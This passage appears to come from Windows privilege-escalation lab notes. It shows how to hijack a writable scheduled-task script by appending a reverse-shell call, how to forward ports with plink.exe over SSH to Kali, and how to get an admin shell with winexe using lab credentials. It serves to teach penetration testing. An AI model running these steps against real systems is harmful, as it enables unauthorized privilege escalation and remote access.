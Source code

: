 In PowerShell:
```bash

PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.


### Privilege Escalation
```bash
1.In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:
> type C:\DevTools\CleanUp.ps1
2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:
> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
It appears we have the ability to write to this file. Backup the script:
> copy C:\DevTools\CleanUp.ps1 C:\Temp\
4. Start a listener on Kali.
5. Use echo to append a call to our reverse shell executable to the end of the script:
> echo C:\PrivEsc\reverse.exe >>
C:\DevTools\CleanUp.ps1
6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.
```

### Port Forwarding
Sometimes it is easier to run exploit code on Kali, but the vulnerable program is listening on an internal port.
In these cases we need to forward a port on Kali to the internal port on Windows.We can do this using a program called plink.exe (from the makers of PuTTY).
### plink.exe
The general format of a port forwarding command using plink.exe:
```bash
> plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```
Note that the <target-IP> is usually local (e.g. 127.0.0.1). plink.exe requires you to SSH to Kali, and then uses the SSH tunnel to forward ports.

### Privilege Escalations:
```bash
1. First, test that we can still login remotely via winexe:
# winexe -U 'admin%password123'
//192.168.1.22 cmd.exe
2. Using an administrator command prompt, re-enable the firewall:
> netsh advfirewall set allprofiles state on
3. Confirm that the winexe command now fails.
4. Copy the plink.exe file across to Windows, and then kill the SMB
Server on Kali (if you are using it).

5. Make sure that the SSH server on Kali is running and accepting root logins. Check that the “PermitRootLogin yes” option is uncommented in /etc/ssh/sshd_config.
Restart the SSH service if necessary.
6. On Windows, use plink.exe to forward port 445 on Kali to the Windows port 445:
> plink.exe root@192.168.1.11 -R 445:127.0.0.1:445
7. On Kali, modify the winexe command to point to localhost (or 127.0.0.1) instead,
and execute it to get a shell via the port forward:
# winexe -U 'admin%password123' //localhost cmd.exe
```
